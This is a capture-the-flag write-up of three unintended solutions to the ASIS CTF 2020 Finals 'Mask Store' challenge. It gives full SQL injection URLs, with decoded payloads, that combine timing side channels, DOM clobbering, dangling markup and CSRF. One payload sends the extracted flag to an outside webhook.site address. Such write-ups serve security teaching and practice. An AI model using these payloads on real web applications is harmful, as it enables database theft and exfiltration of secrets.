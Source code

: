 ## ASIS CTF 2020 - Finals - Mask Store - 12 Solves

We (**Super Guesser**) got 3 unintended solutions

**1.** Using heavy queries in SQL injection to sleep for a while then with window.open and performance.now() leak the flag character by character

**2.** With SQL injection and dom clobbering+dangling markup redirect to /profile if the query was true then our profile will load an image to our webhook

**3.** Dangling markup to spoof lastElement of the document then SQLi+ CSRF to leak the flag through /report

---

**1.** We can't use `<iframe>` because the cookie is SameSite but headless chrome allows window.open by default
```
/panel?orderid='||(select if(substr(lpad(bin(ord(s
ubstr((select flag from secrets),{Flag Index},1)))
,7,0),{Decimal Character},1)=1,1,(select count(*) 
from orders a,orders b,orders c,orders d,orders e,
orders f,orders g,orders h,orders i,orders j,order
s k,orders l,orders m,orders n,orders o,orders p,o
rders q,orders r,orders s,orders t,orders u,orders
 v,orders w,orders x,orders y,orders z,orders aa,o
rders ab,orders ac,orders ad)))#
```

window.open to open the page then if the character is correct we will get **<60** millisecond time otherwise move to another character

**2.** In profile page will change our profile picture to a webhook if it got any hit then it write to another file 
```
/panel?orderid='+union+select+1,(CASE+WHEN+((selec
t+count(*)+from+secrets+where+flag+like+'ASIS%7b%')>
0)+THEN+0x3203c6f7264657220757569643d2231333337222
07473746172743d22313630373638333938362220646573637
2697074696f6e3d22414141414141414141414141412220737
4617475733d223122203e3c2f6f726465723e3c2f6469763e3
c666f726d20616374696f6e3d222f70726f66696c652f39666
564313738362d663238372d343837662d623632332d3237643
8393762666438643222206d6574686f643d22474554223e3c6
96e70757420747970653d2268696464656e22206e616d653d2
26f726465726964223e3c696e70757420747970653d2268696
464656e22206e616d653d22737461747573222076616c75653
d226c617465223e3c2f666f726d3e3c212d2d+ELSE+0x20+EN
D)#
```

decoded hex:
```
<order uuid="1337" tstart="1607683986" description
="AAAAAAAAAAAAA" status="1" ></order></div><form a
ction="/profile/9fed1786-f287-487f-b623-27d897bfd8
d2" method="GET"><input type="hidden" name="orderi
d"><input type="hidden" name="status" value="late"
></form><!--
```

It will automatically submit the form and redirect to our /profile if the character guessing is right after every window.open wait 2 seconds and check our webhook to see if we got a hit

**3.** Using `</div><form method=post action="/report"><form><input name=url value=><input value="` we can can override `document.body.lastElementChild.children[parseInt(1)];` and `form.children[0].value` then changing the form path to `/report` with the SQLi write the flag to end of our supplied URL that the admin will visit
```
/panel?orderid=' union select 1,concat(0x203c6f726
4657220757569643d2226237836383b747470733a2f2f77656
2686f6f6b2e736974652f32623862616466652d666432612d3
46265342d383630322d6466316234306636333166303f70726
f6669743d31,flag,0x22207473746172743d2231363037363
83339383622206465736372697074696f6e3d2241414141414
14141414141414122207374617475733d223122203e3c2f6f7
26465723e3c2f6469763e3c666f726d206d6574686f643d706
f737420616374696f6e3d222f7265706f7274223e3c666f726
d3e3c696e707574206e616d653d75726c2076616c75653d3e3
c696e707574206e616d653d666c61672076616c75653d22) f
rom secrets#
```

decoded:
```
<order uuid="&#x68;ttps://webhook.site/2b8badfe-fd
2a-4be4-8602-df1b40f631f0?profit={The Flag we got 
with SQLi}

" tstart="1607683986" description="AAA
AAAAAAAAAA" status="1" ></order></div><form method
=post action="/report"><form><input name=url value
=><input name=flag value="
```
*Thanks 💜*
